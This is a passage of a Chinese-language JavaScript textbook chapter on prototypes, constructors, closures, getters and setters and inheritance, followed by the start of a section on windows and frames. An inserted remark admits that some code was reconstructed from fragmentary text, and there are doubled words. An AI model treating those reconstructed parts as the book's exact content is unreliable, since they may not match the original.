由于等等运算符 `==` 和 `===` 仅对标识符的原始值起作用，当它们用于比较对象时，它们所做的仅仅是比较包含在这些对象中的 `references`。如果你想查看两个对象具有相同的成员，你需要对每个对象进行仔细检查并逐个查看每个成员。在上一节中，我演示了如何遍历对象的成员。你可以在此方法的基础上，遍历一个对象，并使用括号表示法查看另一个对象是否具有相同的成员。正如你在其他章节中所做的那样，你将使用 `prototype` 属性为 `Object` 类添加此功能：

```javascript
Object.prototype.isSame = function(cObj) {
    var result = true;
    if (cObj) {
        // 先向一个方向检查
        for (var key in cObj) {
            if (cObj[key]) {
                if (cObj[key] != this[key]) {
                    result = false;
                    break;
                }
            }
        }
    }
    if (result) {
        // 现在向另一个方向检查
        for (var key in this) {
            if (this[key] != cObj[key]) {
                result = false;
                break;
            }
        }
    }
    return result;
}
```

对于对象的每个成员，`key` 等于属性 `name`，因此 `myNewObject[key]` 返回该成员的值。（注：提示词中该部分的文本非常碎片；上述代码代表了描述的逻辑）。

# 对象克隆

由于对象标识符是引用，简单地将一个对象赋值给另一个并没有创建该对象的完整副本，如果你想 `clone` 它（即创建一个不关联的副本），你必须投入精力确保每个成员都已复制。你可以重用已经展示的迭代方法来实现。再次，你将使用对象原型为所有对象添加此函数：

```javascript
Object.prototype.clone = function() {
    var objClone = new Object();
    for (var key in this) {
        objClone[key] = this[key];
    }
    return objClone;
}
```

将每个成员附加到你的新对象就像将每个成员赋值给新目标一样简单。你可能想对对象内部所有也是对象的成员调用 `clone()`，但这可能导致无限递归，因为对象可以*相互引用*。

在我深入探讨构造函数、继承和实例的细节之前，我将讨论一个非常基础的主题：静态成员。静态方法和属性是程序中任何地方都可以访问的固定成员——你不需要先创建类实例即可使用它们。你已经看过静态成员了。虽然 JavaScript 没有对静态成员进行特定的分类（与 `C#`、`C++` 和 `Java` 不同），但你可以通过直接将它们附加到对象实例上有效地使成员变为静态的。例如，过去我建议像这样静态地将工具方法添加到 `Object` 对象上：

```javascript
Object.sayHi = function() {
    alert("Hi!");
}
```

然后你只需通过声明 `Object.sayHi()` 即可静态地调用此方法。自定义对象也是如此：

```javascript
var myObj = {
    myFunction: function() { alert("I'm a static function."); },
    myStaticProperty: "hello"
};
```

由于对象是动态的，你可以在任何合适的时候添加或删除成员。

# 构造函数

在本书中，你已经看到了很多对象实例化的例子。例如，你可能已经在各种示例中多次见过这一行：`var myDate = new Date();`

由于 JavaScript 并没有真正意义上的 `class` 定义，你使用 `new` 关键字配合任何旧函数来实现相同的功能。通过这种方式，该函数本质上变成了你类的 `constructor`（构造函数）。你创建的任何函数都可以作为构造函数，并作为伪类定义的基础。构造函数的工作是初始化对象并为该类的实例设置任何所需的属性。构造函数通常不应该有返回值。函数本身充当对象的模板，因此返回值是多余的。

```javascript
function Person() {};

var dave = new Person();
```

在这个简短的示例中，函数 `Person()` 充当你的对象 `dave` 的模板或伪类。在这种情况下，你的构造函数实际上什么都没做。你可以通过允许使用 `this` 关键字在实例上设置参数来更有效地使用它：

```javascript
function Person( firstname, lastname, age ) {
    this.firstname = firstname;
    this.lastname = lastname;
    this.age = age;
}

var dave = new Person("Dave", "Smith", 28);
document.write( dave.firstname );   // "Dave"
```

在这里，你允许开发者设置几个参数，这些参数通过 `this` 关键字被赋值给你类的 `instance`（实例）。我稍后会详细讨论这一点。

# constructor 属性

一旦你创建了类的实例，你就可以始终通过它的 `constructor` 属性来引用创建它的构造函数。

```javascript
document.write( dave.constructor + "<br />");
// function Person(firstname, lastname, age) { this.firstname = firstname; this.lastname = lastname; this.age = age; }

// 我们可以从另一个对象的构造函数创建一个新对象：
var mike = new dave.constructor("Mike", "Fox", 22);
```

创建对象的另一个实例就像引用它的构造函数一样简单，就像我在这里做的那样。这也用于判断 `if` 一个对象是否属于特定类型：

```javascript
// mike 是否是 Person 对象的实例？
document.write( mike.constructor == Person ); // true
```

# 原型 (Prototypes)

在本书中我一直使用 `prototype` 属性为 JavaScript 的核心对象添加功能，但我从未完全解释过它是做什么的。在原型继承中，你创建的对象作为其他对象的某种蓝图。没有正式的类定义，因此，你不是定义一个类并在该类上指定实例方法（这些方法现在将属于该对象的每个实例），而是使用 `prototype` 属性来定义哪些成员将成为对象实例的一部分。

困惑吗？看到示例时其实非常简单。让我们拿之前的伪类（`Person`），使用 `prototype` 属性添加一个实例方法 `sayHi()`，它将传播到该类的所有实例：

```javascript
function Person( firstname, lastname, age ) {
    this.firstname = firstname;
    this.lastname = lastname;
    this.age = age;
}

Person.prototype.sayHi = function() {
    document.write( "Hi, my name is " + this.firstname + " " + this.lastname );
}

var dave = new Person("Dave", "Smith", 28);
dave.sayHi();
// "Hi, my name is Dave Smith"
```

方法 `sayHi()` 再次使用 `this` 关键字来引用`仅`属于该类实例的属性。当你创建一个 `Person` 对象的实例时，方法 `sayHi()` 被复制到实例上。重要的是，对象的原型始终保留在内存中。如果原型在任何点发生`变化`，你所有的实例对象也会更新。修改你的 `sayHi` 方法，看看你的实例 `dave` 是否反映了变化：

```javascript
// 让我们重写 sayHi 原型，看看我们的实例对象会发生什么
Person.prototype.sayHi = function() {
    document.write( "Hola, me llamo es " + this.firstname + " " + this.lastname );
}
dave.sayHi();
// "Hola, me llamo es Dave Smith"
```

确实，变化立即反映在 `dave` 中。

`prototype` 属性也可以是存放属性的好地方。如果你希望某些属性存在于所有实例上，但不想在构造函数中设置所有属性，你可以使用 `prototype` 创建它们，甚至给它们赋一个默认值：

```javascript
Person.prototype.occupation = "Unknown";
document.write("Dave's occupation: " + dave.occupation );
// "Dave's occupation: Unknown"
```

你也可以在一个对象定义中描述整个原型：

```javascript
Person.prototype = {
    sayHi: function() {
        alert("Hi");
    },
    sayBye: function() {
        alert("Bye!");
    }
}
```

通过原型添加的方法和属性定义被称为 `public members`（公共成员），因为它们存在于类的所有实例上，并且可以从类`外部`访问。

# this 关键字

在 JavaScript 中，有一个名为 `this` 的关键字，你用它来引用当前对象。你已经展示了在对象构造函数中使用 `this` 如何设置实例属性：

```javascript
function Person( firstname, lastname, age ) {
    this.firstname = firstname;
    this.lastname = lastname;
    this.age = age;
}
```

`this` 关键字也可以用于原型方法，用以引用实例属性，甚至是实例方法。例如，如果你在你的 `Person` 对象基础上进行构建，扩展你的 `sayHi()` 方法以产生一个更正式的问候函数，它同时也使用 `this` 关键字进行自引用：

```javascript
Person.prototype.formalGreeting = function() {
    this.sayHi();
    // "Hi, my name is [firstname] [lastname]"
    document.write("I am " + this.age + " years old.");
}
```

在这里我使用了 `this` 来引用当前对象。在我之前创建了名为 `dave` 的 Person 实例的示例中，`this` 将指向 `dave` 实例：

```javascript
dave.formalGreeting();
// "Hi, my name is Dave Smith.
// I am 28 years old."
```

在第 5 章中我也讨论了 `apply()` 和 `call()` 函数，它们可以用于执行`其他对象`的方法，但保持当前作用域。为了回顾，让我们看一个使用你的 `dave` 实例的示例：

```javascript
var dave = new Person("Dave", "Smith", 28);

// 让我们创建另一个对象，它恰好具有与我们的 Person 类相同的属性
var impersonator = { firstname: "Alex", lastname: "White" };

// Now let's execute our sayHi() function but in the context of impersonator
dave.sayHi.apply(impersonator, []);
// "Hi, my name is Alex White"
```

使用 `apply()` 的功能强制修改 `sayHi()` 方法中 `this` 的作用域，你能够让 `impersonator` 对象宣告自己的身份，就像由 `dave` 执行的一样。

## 私有成员 (Private Members)

你已经查看了 `prototype` 关键字以及如何使用它在伪类上创建公共实例成员。另一种类型的实例成员是 `private`（私有）成员。有时，当你想要创建一个属性或方法，但不想让它暴露给外部——仅对类内部的其他方法可见——你就会希望它们是 `private` 私有的。在 `Java`、`C#` 和 `C++` 等经典语言中，有一种名为 `private member`（私有成员）的特定结构正可以做到这一点。在 JavaScript 中没有这种机制，但尽管缺乏正式的私有作用域，你仍然可以实现的结果。

从历史上看，一些开发者采用了一种简单的 `convention`（约定）来指示某个属性或方法是私有的。他们通过在成员名称前加上一个或两个下划线来实现：

```javascript
myClass.prototype.__initialized = false;
```

尽管该成员实际上 `is`（是）公共的，当开发者查看此代码时，他们直观地理解该属性并不是设计在类内部机制之外使用的。

你可以使用的另一种方法是在构造函数内部创建方法：

```javascript
function Person( firstname, lastname ) {
    this.firstname = firstname;
    this.lastname = lastname;
    getfullname = function() {
        return firstname + " " + lastname;
    }
    this.fullname = getfullname();
}
```

虽然函数 `getfullname()` 在你的构造函数内部是可以访问的，但它无法从公共实例方法（例如你的 `sayHi()` 函数）访问——这使得它们并不是真正的 `true` 私有函数。通过实现被称为 `privileged`（特权）成员的方法可以实现更接近的效果。

## 特权成员 (Privileged Members)

Yahoo! 的布道者、多产 JavaScript 天才 Douglas Crockford 为真正私有但又能从公共实例方法内部访问的函数提出了以下方法。通过使用 `closure`（闭包），你可以在实例方法（通过使用 `this` 关键字定义）和构造函数中的私有函数之间建立联系。唯一的障碍是，由于构造函数内部闭包的某些奇怪行为，你必须在另一个变量中创建当前对象（`this`）的引用（建议使用变量名为 `that`）。请查看以下示例：

```javascript
function Person( firstname, lastname, age ) {
    this.firstname = firstname;
    this.lastname = lastname;
    this.age = age;
    getfullname = function() {
        return firstname + " " + lastname;
    }
    var that = this;
    this.sayHi = function() {
        document.write("Hi my name is " + getfullname() + " and I am " +
        that.age + " years old.");
    }
}

var dave = new Person("Dave", "Smith", 28);
dave.sayHi();
// "Hi my name is Dave Smith and I am 28 years old."
```

现在，在你的公共实例方法 `sayHi()` 中，你通过 `closure` 隐式地访问了原本不可访问的函数 `getfullname()`。唯一的真实缺点是，你不再拥有将实例方法分离为离散原型定义的结构化优雅性。以这种方式定义公共方法对性能也会产生负面影响。

## 访问器和赋值器 (Getters and Setters)

与控制对象私有成员访问类似的概念是定义 `getters and setters`（访问器和赋值器）。对于类，getter（访问器）是一个返回属性值的方法。setter（赋值器）相反——它设置属性的值。因为它们是方法，你可以在返回（或设置）值之前对值执行某些操作。这样做的效果是提供了一个受控的公共接口，并使某些变量只读，而其他变量可以是可读 `and`（且）可写的。在 `ECMAScript 3.1` 中，有一种为 JavaScript 对象定义 getters 和 setters 方法，这种方法已被大多数浏览器厂商部分采用，包括 `Firefox 1.5+`、`Safari 3+`、`Opera 9.5+` 甚至 `Rhino 1.6R6`。然而，Internet Explorer (`JScript 5.8`) 对 getters 和 setters 的当前支持仅限于 DOM 原型上的部分实现——这使其在本质上是不可用的。微软已经表示他们将在近期提供更完整的实现，因此在此处回顾以备之可能是很有用的。

在没有适当 getters 和 setters 的情况下，过去如果你想使用方法为私有内部变量提供外部接口，你必须通过具有唯一名称（如 `"getVar"` 和 `"setVar"`）的闭包来实现。下面的示例与本节之前使用的类似：


```javascript
function Person(nameStr) {
    var name = nameStr;
    this.getName = function() {
        return name;
    };
    this.setName = function(nameStr) {
        name = nameStr;
    };
}
```

这是可以的，但这不是真正的 getter 和 setter，因为你强迫开发者为每个方法使用唯一的方法名。由于这里的属性名实际上只是 `Person.name`，你应该能够为 set `and`（和）get 定义接口，并将它们挂载到属性名本身。

在 JavaScript `1.5` 和之前提到的浏览器中，你在 `Object` 对象上有几个可用方法，允许你定义和查找这些访问器。对于 getters，你有 `Object.__defineGetter__()`，其语法如下：

```javascript
myObj.__defineGetter__(propString, functRef)
```

参数 `propString` 是一个包含你正在定义的属性 `name` 的字符串。第二个参数 `functRef` 是一个返回所需值的函数。同样，`Object.__defineSetter__()` 方法执行相同的操作，但针对 setters：

```javascript
myObj.__defineSetter__(propString, functRef)
```

在这种情况下，由 `functRef` 定义的函数接受单个参数作为新的属性值。如果你使用此功能重新实现你的 `getName()` 和 `setName()` 访问器，看起来可能像这样：

```javascript
function Person(nameStr) {
    var name = nameStr;
    this.__defineGetter__("name", function() {
        return name;
    });
    this.__defineSetter__("name", function(nameStr) {
        name = nameStr;
    });
}
```

现在，设置名称属性就像 `dave.name = "Davie Jones";` 一样简单，获取它就像直接引用 `dave.name` 一样简单。setter 和 getter 的定义不需要在构造函数中发生。它们可以在对象创建后附加，或者使用 get 和 set 对象定义，通过其原型将它们附加到对象上：

```javascript
Person.prototype = {
    get name() {
        return this._name;
    },
    set name(nameStr) {
        this._name = nameStr;
    }
}
```

最后，如果你想在之后获取 getter 或 setter 的 `reference`（引用），可以使用 `__lookupGetter__()` 或 `__lookupSetter__()` 方法。

```javascript
document.write("Getter for name: " + dave.__lookupGetter__("name").toString() );
```

// "Getter for name: function () { return this._name; }"

对于任何曾经尝试将经典的面向对象技术强引入 JavaScript 世界的程序员来说，一个问题不可避免地出现了：我如何从一个类继承到另一个类？面向对象（OO）编程的一个基本原理是你可以创建类，然后将这些定义 `extend` 或 `subclass` 扩展为更具体的结构。一个例子是如果你想表示动物园里的动物。你可以从一个简单的类开始，用通用术语定义动物，并包含一些基本属性（例如：种类、性别），以及动物园中所有动物共有的行为（例如：吃、睡），但没有其他内容。然后，当需要为某个特定的动物（例如火烈鸟）编写定义时，你可能会子类化 `Animal` 以用更具体的术语描述 `bird`（鸟）。`bird` 的定义包含了你为 `Animal` 提供的所有内容，还将把种类定义为“鸟”，并包含一个“飞行”的行为（这是大多数鸟都会做的事）。你的火烈鸟就成了 `Bird` 类的一个 `instance`（实例），并继承了它所有的信息和行为——这让你描述动物园里所有鸟（特别是这一只）的工作变得简单得多。请参阅图 10-1 查看这种关系的插示。


虽然生物学家可能对我对动物和鸟的定义不同意，但你可能会理解这种从一个类定义到另一个类的信息和行为共享是很有用的。当然，JavaScript 没有类——只有原型。尽管如此，实际上有几种实现继承的方法——所有方法都允许你基于另一个原型来定义原型，以便你可以从对象的实例访问父类的方法和属性。

# 基于原型的子类化

到目前最常见的继承方法被称为 `prototype chaining`（原型链）。正如你所知，你添加到函数 `prototype` 属性的任何内容都会被添加到创建的任何对象实例中。原型链基本上涉及调用你父类的构造函数（你正在继承的那个）来形成你子类原型的基础。父类的所有属性和方法本质上都被赋值给我们子类的 `prototype` 属性——实际上它们构成了我们子类原型的一部分。为了更清楚地说明这一点，首先定义你之前提过的 `Animal` 类：

```javascript
function Animal() {}

Animal.prototype = {
    group: "",
    gender: "",
    eat: function() {
        return "Yum, food! nom nom";
    },
    sleep: function() {
        return "zzzzzzzz..";
    }
}
```

现在你要做的是创建一个名为 `Bird` 的类，通过在 `Bird` 的原型上调用构造函数，来继承 `Animal` 的成员：

```javascript
function Bird() {}

Bird.prototype = new Animal();

Bird.prototype.fly = function() {
    return "flap flap flap!";
}
```

请注意，每当你这样做时，你可能想要添加到子类中的任何公共成员都需要在你调用父类构造函数*之后*添加。这是因为设置 `subclass.prototype = new superclass()` 的行为会完全覆盖你之前在原型中有的任何内容。遗憾的是，你还没有完成。使用另一个类的构造函数来定义你的原型的一个意外副作用是，内部 `constructor` 属性（在本章前面提到）被覆盖了。这个属性至关重要——特别是如果你打算使用 `instanceOf` 运算符来查看一个对象是否是特定类的实例。要修复这个问题，你需要手动将构造函数覆盖为它的正确值：

```javascript
Bird.prototype.constructor = Bird;
```

现在要测试这一点，你所做的只需创建一个 `Bird` 类的实例：

```javascript
var flamingo = new Bird();

document.write(flamingo.eat()); // "Yum, food! nom nom"
```

当你测试实例的 `eat()` 方法时，你会发现它正确地继承了父类的方法。在这个简单的示例中，我没有在 `Animal` 的构造函数中使用任何参数。你*确实*有在创建原型时传递参数的选项，但对于大多数用途来说，这样做没有用，因为由于执行作用域的原因——任何设置的属性都将被忽略。如果你以此方式组合你的原型，请尝试设置你的构造函数使它们不需要参数。如果你必须使用参数，可以在 `Bird` 的构造函数中使用 `call()` 再次调用构造函数并应用任何需要的参数。例如，假设你的 `Animal` 构造函数接受两个参数：`group` 和 `gender`：

```javascript
function Animal(group, gender) {
    this.group = group;
    this.gender = gender;
}
```

在你的 `Bird` 构造函数中，使用 `call` 调用 `Animal` 构造函数并将 `this` 作为你的上下文（在这种情况下指的是你的实例）：

```javascript
function Bird(gender) {
    Animal.call(this, "bird", gender);
}

Bird.prototype = new Animal();
```

现在正确的参数将沿原型链传递。遗憾，正如你可能猜到的，这仍然不是完美的解决方案。继承的一个方便特性是你可以用相同定义的新函数覆盖原型链高处存在的函数。例如，如果你想覆盖 `Object` 对象的 `toString()` 方法，你可以在自己的原型中这样做，而没有任何代价或例外。

# 原型的问题

使用前面提到的技术组合原型的一个先决条件是在*定义*子类的原型时，显式地调用父类的构造函数。实际上，你正在创建一个我们父类的实例，以便定义子类的原型。如果你在 `Animal` 类的构造函数中放置 `alert()`，你就会看到确实如此：

```javascript
function Animal() {
    alert("You have created an animal.");
}

function Bird() {}
```

`Bird.prototype = new Animal();`即使页面上不再有任何 JavaScript 代码，如果你运行此程序，你会立即在页面上看到一个警告框——只需通过将这两个原型链在一起，正如图 10-2 所示。


在 `Animal/Bird` 这种简单的场景下，这样做没有问题。但如果在你的父类构造函数中定义了某些具有破坏性或依赖于程序处于特定状态的代码——这可能是灾难性的。通常情况下，在完全定义所有你将要使用的类之前，执行此类代码是一种坏习惯。

另一个问题与 `多继承` 有关——原型链并不支持多继承（不*完全*支持）。简单来说，`多继承` 是指实现来自多个不相关的父对象（超过一个）的方法和属性。严格来说，这在多类继承方面并不是常见做法，但在 `接口` 的形式中被频繁地使用。接口是一个不完整的类定义，用于保证特定类型的公共接口——这非常方便，因为如果人们熟悉某个用于（例如）绘图的特定接口，就没有理由重复造轮子——你只需要 `implement` `iGraphics` 接口（无论它被命名为什么什么），人们就会知道你的类将有一个 `render()` 方法、一个 `line()` 方法等等。

将接口作为你原型链方法的附加实现并不并不困难，但它不会是对接口类的真正的 `inherit`——你将无法确性地判断你的对象是否是特定接口的实例，或者它是否精确地实现了接口的方法（例如，这些方法可能会被重写）。然而，实现此点的轻量级方法是在调用构造函数*之前*调用你的接口类的构造函数。参考你之前的 `Bird` 示例，创建另一个作为接口的类：

```javascript
// 这将作为我们对产蛋动物的接口
// 注意，原则上它不应该包含任何实际功能性
// 它应该只定义方法和属性
function iLaysEggs() {
    this.buildNest = function() {};
    this.lay = function(howMany) {};
}

// 现在我们重新查看 Bird 构造函数
function Bird(gender) {
    // 实现 iLaysEggs 接口
    iLaysEggs.call(this);
    Animal.call(this, "bird", gender);
}
```

现在你的 `Bird` 类中有两个额外的方法。目前它们什么都不做。你仍然需要重新定义它们并提供一些功能性。你在这里所做的只是为你的对象预填充相同的方法和属性。

# 替代子类化方法

鉴于原型链中提到的问题，人们已经付出了大量努力产生替代的继承方法，这些方法不需要为了扩展类而调用构造函数函数。所有主要的 JavaScript 框架，如 `JQuery`、`Dojo` 和 `Prototype` 都有它们自己内置的类扩展机制。其中一些是基于 Douglas Crockford、Dean Edwards 等人的工作。

一种源自 Dean Edwards 方法的技巧由 Dave Johnson 提出，它做了两件事——通过将父类的原型分配给空对象来避免调用构造函数函数，并提供了一种通过引用（称之为 `__super__`）访问 `原始` 父类方法的方法。以下是该方法的适配：

```javascript
function extend(subClass, superClass) {
    // 创建一个具有空构造函数的类类
    // 并且包含 superClass 的成员
    function inheritance() {};
    inheritance.prototype = superClass.prototype;
    // 将原型设置为 superClass 的新实例
    // 但不包含构造函数
    subClass.prototype = new inheritance();
    subClass.prototype.constructor = subClass;
    subClass.baseConstructor = superClass;
    // 启用多继承
    if (superClass.__super__) {
        superClass.prototype.__super__ = superClass.__super__;
    }
    subClass.__super__ = superClass.prototype;
}
```

在 `__super__` 两端使用下划线是因为 `super` 在 JavaScript 中是保留字，而且为了防止它与你在类定义中可能有的任何属性名称冲突或混淆。在你之前的 `Bird` 类上使用这种方法，看起来如下：

```javascript
function Bird(gender) {
    this.gender = gender;
}

extend(Bird, Animal);
```

起初，这对你来说是极其务实的，因为完全避免了调用 `baseClass`，同时不仅导入了父类的所有成员，还保留了对父类原型的引用，以防你想引用原始类。你也可以通过这种方式通过引用你的对象实例 `__super__` 类来向上追溯原型链（例如 `myObj.__super__.__super__.__super__` 等）。

拥有原始父类原型的引用可能会大派用场。假设你想掩盖（重写）父类中的一个方法——但在该方法中 `refer` 到原始方法。你可以这样做：

```javascript
Bird.prototype.eat = function() {
    // 因为鸟在吃东西后喜欢叫“caw!”，所以我们需要掩盖这个函数
    return Bird.__super__.eat.apply(this) + "... caw!";
}

var flamingo = new Bird("male");

document.write(flamingo.eat());
// "Yum, food! nom nom... caw!"
```

在这里你重写了 `eat()` 函数，但仍然引用了原始方法。这让你在扩展类时提供了很大的灵活性，而无需重写大量代码，这是你总是希望注意的，以保持文件大小和代码复杂性较低。

## 总结

本章的设计旨在完善你对如何将面向对象设计原则应用于 JavaScript 的理解。在本章中，你学习了：

- JavaScript 作为一种基于原型的面向对象语言，与 `Java`、`C++`、`C#` 等经典语言有何不同。
- 使用 `new` 关键字创建对象实例。
- 使用 `delete` 语句可以删除属性和对象。
- 对象的行为非常类似于数组（或哈希表）。你可以使用类数组的括号符号 `[ .. ]` 遍历它们的成员，并读写属性。
- 你可以在对象上创建静态成员，以及公共和私有成员。
- 你可以通过 `prototype` 属性在 JavaScript 中创建“伪类”。
- JavaScript 中的继承可以通过多种方式实现。一种方法是将一个类的构造函数链链到另一个类的原型上，这被称为原型链。
- 原型链有几个缺点，主要是在类定义阶段就会调用父类类的构造函数，以及对多重继承的支持较差。
- 存在其他的继承方法。你也可以通过创建一个空对象、将父类原型赋值给它，并转而调用其构造函数（该函数是空的）来实现子类化。你已经看过这方面的示例。

接下来，我稍微转换一下思路，再次讨论你如何在浏览器本身本身工作。我将首先讨论如何控制窗口和框架（frames），以及如何使用 JavaScript 检测浏览器的基本信息。

## 窗口与框架

到目前为止，我主要关注 JavaScript 的基础编程主题——这些主题适用于任何 ECMAScript 运行时，无论它是在浏览器内部还是外部。当然，当你学习 JavaScript 开发时，通常感兴趣的是浏览器脚本。这到目前为止 JavaScript 最常用的用例——无疑也是所有有趣事情发生的地方。在本章中，你将重新回顾浏览器，特别关注你如何在高层面上与之交互。我将讨论如何获取基本的浏览器和操作系统信息，你可以用顶层浏览器对象（包括 `window`、`navigator`、`location`、`history` 和 `screen`）做什么，以及如何操作窗口。稍后，我将讨论处理框架和对话框以及如何为 URL 编码字符串。

# 浏览器对象模型概述

浏览器脚本本质上有三个不同的领域或组件：核心 JavaScript、文档对象模型 (DOM) 和浏览器对象模型 (BOM)。前两者已经发布了规范，但 BOM 随着时间的推移逐渐演变，在不同浏览器厂商之间缺乏共同的设计文档。幸运的是，它们之间有相当多的共识，你获得了一个基本上统一且轻量级的接口，用于与浏览器本身进行非常高层的交互。在第 1 章中，我介绍了 BOM 的概念，即通过 JavaScript 与文档和窗口的各种组件交互的方法。在接下来的章节中，我将详细介绍这些组件：

- `document` 对象：页面布局和内容的结构化对象表示，具有允许你修改其内容的 API。
- `frames` 集合：一个包含当前文档中所有子框架的类数组对象。
- `history` 对象：一个包含浏览器会话历史的对象，列出了在当前框架或窗口中访问过的所有页面列表。
- `location` 对象：关于框架或窗口当前 URL 的详细信息。
- `navigator` 对象：关于运行当前页面或脚本的应用程序的信息。

# window 对象

在任何 JavaScript 解释器中，全局对象都是程序中所有代码的最外层范围。在浏览器中，全局对象就是 `window` 对象。`window` 还将你连接到你对实际浏览器窗口的所有认知：它的尺寸和形状、你运行的浏览器版本，以及与文档本身相关的一切内容。对于框架（或 `iFrames`），它们是嵌入到你页面中的浏览器上下文，它们也有自己的窗口对象——尽管它们本身并不是真正意义上的“窗口”。

浏览器中的全局上下文也是一个自引用实体。例如，全局变量可以通过通过名称引用它们或调用 `window.variablename` 直接访问。`window` 引用是一种简写形式，使显式访问全局实体变得更容易。`window` 对象的所有成员（例如 `document`、`navigator` 和 `history`）都可以通过名称访问（例如 `document.body`），或作为 `window` 对象的成员访问：`window.document.body`。此外，静态属性 `self` 指向 `window`。例如，`window.self` 始终等于 `window`。在你的对象模型中出现这种循环引用似乎很奇怪，但这是非常常见的情况——特别是当你处理 DOM 时，正如你将在后面的章节中看到的。

奇怪的是，`window` 对象在某种程度上是一个名不实副的名字。在少数例外情况下，当你设置了 `window` 的属性值并加载新页面（或重新加载你所在的页面）时，“画板”会被擦除——这表明 `window` 对象实际上与文档的关系比与窗口本身更紧密。这是你必须习惯的另一个特性。从 JavaScript 中可以访问的真正全局的功能很少——即超越网页或会话本身的功能。有几种技术可以半永久地存储数据，但大多数这些技术都属于传统的浏览器对象模型之外。关于这些更多信息请参见第 18 章。

虽然我们能够通过 `window` 对象稍微控制高层的窗口外观，但最近窗口尺寸和位置设置的活性有所降低。这是为了应对垃圾邮件发送者的恶意利用，他们通过将新窗口放在桌面隐藏或难以到达的地方来欺骗用户。除非你使用 `window.open()` 自己创建一个窗口，否则你对窗口的外观或尺寸和位置几乎没有影响力（至少无法以跨浏览器的方式）。虽然这对于诚实的开发者来说有些困扰，但只要你愿意克服必要的障碍，总有办法绕过这些限制。

你通过此对象还可以访问许多窗口对话框，包括警告（alert）、确认（confirm）和提示（prompt）。此外，在 Internet Explorer 中，*模态*（夺取其他窗口的控制权）窗口和*非模态*（允许共享控制权）窗口之间存在区别。但由于缺乏对这些工具外观和感受的控制，开发者通常选择基于 DHTML 的自定义窗口。我将在本章晚些时候讨论对话框，并在第 16 章讨论 DHTML 窗口。

`Frames` 本质上是文档中嵌入的网页。在某些开发者圈中，人们认为应该不惜一切避免使用框架，因为它们华丽、笨拙、效率低下、不利于搜索引擎爬取，且用户难以书签。另一些人则认为，由于框架提供了一种在页面上强制持久导航的简单方法，允许用户在一定范围内调整页面布局，并且不需要深入了解 CSS，它们仍然发挥着重要作用。诚然，许多应用程序仍然在使用框架——主要是企业内部应用程序——但它们确实存在，且你应该了解如何与它们进行交互。

# 创建框架

框架有两种基本类型：`framesets` 和 `iFrames`（内联框架）。`iFrames` 是较晚的发明，允许你在页面的任何地方放置框架——甚至可以内联在内容中。相反，`Framesets` 将页面划分为固定区域——每个区域属于不同的文档。要放置一个 `IFrame`，只需使用 `<iframe>` HTML 标签：

```html
<html>
<head></head>
<body>
    <h1>A Page with an Iframe</h1>
    <iframe src="1.html" width="50%" height="300" name="myIframe">
        This content will be displayed by browsers with no iFrame support.
    </iframe>
</body>
</html>
```

如你所示，`IFrame` 是内联在文档中的。相反，`frameset` 页面以一个落地页开始，该页面仅描述页面的框架布局。框架的实际内容包含在文档本身中：

```html
<html>
<head></head>
<frameset cols="20%, 80%">
    <frameset rows="100, 200">
        <frame src="1.html" name="frame1">
        <frame src="2.html" name="frame2">
    </frameset>
    <frame src="3.html" name="frame3">
    <noframes>
        This content is displayed when a browser does not support frames.
    </noframes>
</frameset>
</html>
```

注意，在 `frameset` 布局中没有 `<body>` 标签。`<frameset>` 覆盖了对 body 的需求。从本质上，包含 `frameset` 的 HTML 页面永远不会被用户真正*看到*。前面的示例创建了一个具有三个矩形区域的布局，其中 `3.html` 占据了页面最大的区域。

# 框架对象模型

当页面没有框架时，对象模型是简单的——单个顶层窗口对象允许你访问世上的一切。当文档具有一个 `frameset` 时，顶层文档被视为 `parent window`（父窗口），它有自己的窗口对象，但每个 `<FRAME>` 也有它自己的窗口对象。`iFrames` 也是如此。对于每个窗口对象，都有一个文档对象、一个历史对象、一个导航对象等。换句话说，框架与独立的浏览器窗口或标签页没有区别。每个框架都有自己的全局上下文和完整的 DOM，与它的兄弟和父级隔离开。没有理由认为子框架（或 `iFrames`）不能加载自己的 `framesets` 或 `iFrames`。不过，如果要在框架之间共享信息，共享父窗口的扁平化框架结构是最好的。

# 引用框架

窗口对象的几个指针使得跨框架通信变得简单。但需要注意的是，只有当另一个框架（或 `iFrame`）处于**相同域**时，你才能与它交互。这种限制被称为“同源策略”（Same Origin Policy），旨在保护用户免受窃取信息的恶意尝试。引用其他框架有场景：

- 父窗口到子框架
- 子框架到父窗口
- 子框架到其他框架

在第一种情况下，访问子框架的 DOM 可以通过几种不同的方式实现：

```javascript
// 访问子框架的文档
window.frames[frameIndex].document
window.frames[frameName].document
// 以下针对 IE iFrames:
document.getElementById(frameID).contentWindow.document
// 以下针对非 IE 浏览器:
document.getElementById(frameID).contentDocument
```

你可以看到，`frames` 集合的作用非常像数组。在 `framesets` 的情况下，可以使用框架的 `name` 属性；在 `iFrames` 的情况下，可以使用框架的 `index`。采用更现代的方法，你可以使用 `document.getElementById()` 方法通过 ID 而不是名称来获取 `iFrame` 的引用。那么在 Internet Explorer 中，你通过 `contentWindow` 引用窗口对象，并从该对象引用文档对象。在非 IE 浏览器中，你使用 `contentWindow.document` 或直接使用 `contentDocument`。

当从框架向父级移动时，你可以使用 `parent` 或 `top` 之一来获取适当窗口对象的引用。后者 `top` 指最顶层的窗口对象，而 `parent` 指直接所有窗口。要跳转到另一个框架，你可以这样做：

```javascript
top.frames[frameIndex].document
top.frames[frameName].document
// 或者，使用 getById 方法:
// Explorer
top.document.getElementById(frameID).contentWindow.document
// Others
top.document.getElementById(frameID).contentDocument
```

你可以以此此基础来检测文档是否在框架内，如果是，则消除该框架：

```javascript
if (top != window) {
    top.location = window.location;
}
```

相反，如果一个文档应该在框架中，你也可以强制执行这一点：

```javascript
if (top == window) {
    // 我们不在框架中，重定向到 frameset 文档
}
```

在 `iFrame` 内工作时，你可以通过窗口对象的 `frameElement` 属性获取框架容器元素本身的引用：

```javascript
// 获取框架元素的引用
window.frameElement
```

`frameElement` 属性受大多数现代浏览器（IE5+、NN7+、Safari 和 Opera）的支持。

# 操作窗口

关于窗口本身，有很多内容可以通过 JavaScript 直接控制。它们包括外壳（实际文档之外的各种控件，如地址栏）、底部的状态栏、页面的 URL，甚至还有窗口的大小和滚动位置。然而，也有一些限制。存在许多安全限制限制了你以不同方式操作浏览器的能力。例如，你不能在窗口创建后修改外壳，不能创建小到不可见的窗口，或将窗口放置在屏幕之外。如今，某些浏览器甚至限制自主打开窗口（无需用户点击）的应用程序。这些限制是为了保护用户免受恶意脚本、广告和其他通用恶意软件的影响。

# 状态栏

